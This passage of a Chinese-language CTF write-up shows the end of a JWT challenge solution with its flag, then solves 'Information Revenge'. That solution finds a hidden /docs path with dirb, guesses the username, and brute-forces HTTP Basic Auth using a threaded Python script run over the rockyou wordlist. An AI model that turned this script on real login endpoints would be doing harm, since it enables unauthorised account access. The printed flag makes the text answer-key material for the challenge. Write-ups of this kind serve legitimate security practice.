 5. 帶入access-token訪問`/flag_5a6d78685a323176636d567a5a574e31636d6c3065516f3d0a`
   ![image](https://hackmd.io/_uploads/HJDrikOSA.png)

> Flag: `FhCTF{N3w_ch4ll3ng3_1n_JWT_c95ceec4ea7d5414f10853e616da8e521f957e7627368a641e46fe74720b53b1}`

---

### Information Revenge

> {{< spoiler "原圖" >}}
> ![Challenge](https://hackmd.io/_uploads/SkepiJOH0.png "500px")
> {{< /spoiler >}}
> 復仇之戰，我又來啦！  
> 這次，我帶回了更安全的方式，不信你能破！！  
> 好吧，其實我也沒底，畢竟以我的名字作為認證的擔保，破解可能還是可以的...  
> 畢竟我沒那麼多時間設定好強的認證了⋯  
> https://information-revenge.fhh4ck3rs.taipei/
>
> Author: CXPh03n1x

#### 題解

1. 這題form的name標籤如同`Information`一樣未被加上，在POST時不會有資料被送出。由此推測此題跟登入應該沒有關聯
2. 老樣子一樣`dirb`找到`/docs`路徑可被訪問，但是還缺少了帳號與密碼
3. 題目敘述中的「以我的名字作為認證的擔保」猜測使用者名稱是「`CXPh03n1x`」，密碼一樣爆破
4. 寫腳本，約2:30後可得出結果，密碼為「`Password1`」

   ```python {linenos=inline}
   import base64
   import requests
   import threading
   from queue import Queue
   from tqdm import tqdm
   
   with open('rockyou.txt', 'r') as f:
       rockyou = f.readlines()
   
   password_queue = Queue()
   for password in rockyou:
       password_queue.put(password)
   
   progress = tqdm(total=len(rockyou))
   
   
   def try_password():
       while not password_queue.empty():
           password = password_queue.get()
           auth = base64.b64encode(f"CXPh03n1x:{password.strip()}".encode()).decode()
           req = requests.get(
               'https://information-revenge.fhh4ck3rs.taipei/docs',
               headers={
                   'Authorization': f'Basic {auth}',
               },
           )
   
           if req.status_code != 401:
               print(f"[{req.status_code}] Found: {password.strip()}")
               print(req.text)
               with password_queue.mutex:
                   password_queue.queue.clear()
               break
   
           progress.update(1)
           password_queue.task_done()
   ```
